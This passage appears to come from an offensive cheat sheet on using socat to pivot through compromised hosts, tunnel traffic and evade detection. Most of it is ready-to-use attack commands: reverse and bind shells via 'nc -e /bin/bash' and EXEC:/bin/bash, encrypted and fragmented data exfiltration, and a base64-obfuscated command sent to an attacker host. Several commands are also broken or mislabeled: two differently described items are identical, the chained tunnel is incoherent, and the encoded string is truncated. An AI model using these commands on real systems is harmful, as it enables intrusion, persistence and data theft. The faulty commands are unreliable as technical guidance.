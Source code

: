 #### Lateral Movement, Pivoting, and Tunneling

SoCat is highly effective for lateral movement within a network, pivoting between systems, and tunneling traffic through compromised hosts.

1. **Port Forwarding for Lateral Movement**: Forwards traffic from one machine to another, enabling lateral movement within the network.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork TCP:<target_ip>:<target_port>
    ```
2. **Pivoting Through a Compromised Host**: Tunnels traffic through a compromised host to access internal systems.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"nc -e /bin/bash <internal_ip> <internal_port>"
    ```
3. **Tunneling Data Through SoCat**: Creates a tunnel to exfiltrate data from an internal system through an externally facing compromised host.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"nc -e /bin/bash <internal_ip> <internal_port>"
    ```
4. **Chained Tunneling for Obfuscation**: Chains multiple tunnels together to obfuscate traffic, making it more difficult to detect.
    ```bash
    socat TCP-LISTEN:<local_port1>,reuseaddr,fork TCP:<intermediate_ip1>:<intermediate_port1> | socat - TCP:<intermediate_ip2>:<intermediate_port2> | socat - TCP:<target_ip>:<target_port>
    ```
5. **Reverse Tunneling for Persistent Access**: Establishes a reverse tunnel to maintain access even after the initial compromise.
    ```bash
    ssh -R <remote_port>:localhost:<local_port> user@<remote_host>
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"nc -e /bin/bash <remote_host> <remote_port>"
    ```

#### Defense Evasion

SoCat provides numerous ways to evade detection by network security devices and analysts, making it a valuable tool for maintaining stealth.

1. **Stealth Scanning with Output Suppression**: Suppresses output to avoid generating noticeable network traffic.
    ```bash
    socat - TCP:<target_ip>:<target_port>,interval=0.5 SYSTEM:"echo 'scan completed'"
    ```
2. **Traffic Obfuscation with Encryption**: Encrypts data being sent over the network to avoid detection by IDS/IPS.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"openssl enc -aes-256-cbc -salt -in plaintext.txt | socat - TCP:<target_ip>:<target_port>"
    ```
3. **Fragmented Data Transfer**: Transfers large files in smaller fragments to avoid triggering network security thresholds.
    ```bash
    socat TCP-LISTEN:<local_port>,reuseaddr,fork SYSTEM:"split -b 1024M <large_file> && for f in x*; do socat - TCP:<target_ip>:<target_port> < $f; done"
    ```
4. **Using Randomized Ports**: Randomizes the local and remote ports to avoid port-based filtering.
    ```bash
    socat TCP-LISTEN:$(shuf -i 2000-65000 -n 1),reuseaddr,fork EXEC:/bin/bash,pty,stderr,setsid,sigint,sane
    ```
5. **Obfuscating Commands**: Encodes commands to obfuscate them from detection, then decodes and executes them on the target.
    ```bash
    socat TCP:<target_ip>:<target_port> SYSTEM:"echo 'Y3VybCBodHRwOi8vPHRhcmdldF9pcD46PHRhcmdldF9wb3J0Pj8gPiBjdGwuZXh' | base64 -d | socat - TCP:<attack_ip>:<attack_port>"